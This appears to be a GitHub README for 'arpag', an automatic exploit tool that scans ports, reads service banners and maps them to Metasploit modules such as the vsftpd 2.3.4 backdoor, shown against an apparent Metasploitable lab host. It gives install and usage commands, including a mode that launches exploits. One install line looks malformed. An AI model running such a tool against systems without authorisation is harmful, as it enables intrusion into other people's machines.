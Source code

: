 Arpag - Automatic Exploit Tool

arpağ: In Turkish mythology magical word means. The tool name arpag has been selected because it has made the exploit process automatic.

Installation:

git clone https://github.com/anilbaranyelken/arpag.git

cd arpag

pip install -r requests

Usage:

arpag.py [-h] IP_address Exploit_status Port_baslangic Port_bitis

Example Usage 1:

python arpag.py 192.168.1.24 False 20 30

192.168.1.24 , The IP address is scanned for the port and banner information is received. The port range is 20-30. Exploit_status is False, no exploit will be done.

Output:

python arpag.py 192.168.1.24 False 20 30

[+]Port: 21

[+]Servis: : 220 (vsFTPd 2.3.4)

[+]Port: 22

[+]Servis: : SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1

[+]Port: 23

[+]Servis: : ����� ��#��'

[+]Port: 25

[+]Servis: : 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)

[+]Exploit kontrolleri başlıyor...

[+]Serviste exploit kontrolü başlıyor: 220 (vsFTPd 2.3.4)

[+]Metasploit exploit: exploit/unix/ftp/vsftpd_234_backdoor

<img src="https://github.com/anilbaranyelken/arpag/blob/master/arpagExploitFalse.JPG">
 
Example Usage 2:

python arpag.py 192.168.1.24 True 1 80

[+]Port: 21

[+]Servis: : 220 (vsFTPd 2.3.4)

[+]Port: 22

[+]Servis: : SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1

[+]Port: 23

[+]Servis: : ����� ��#��'

[+]Port: 25

[+]Servis: : 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)

[+]Exploit kontrolleri başlıyor...

[+]Serviste exploit kontrolü başlıyor: 220 (vsFTPd 2.3.4)

[+]Metasploit exploit: exploit/unix/ftp/vsftpd_234_backdoor

<img src="https://github.com/anilbaranyelken/arpag/blob/master/arpag.JPG">

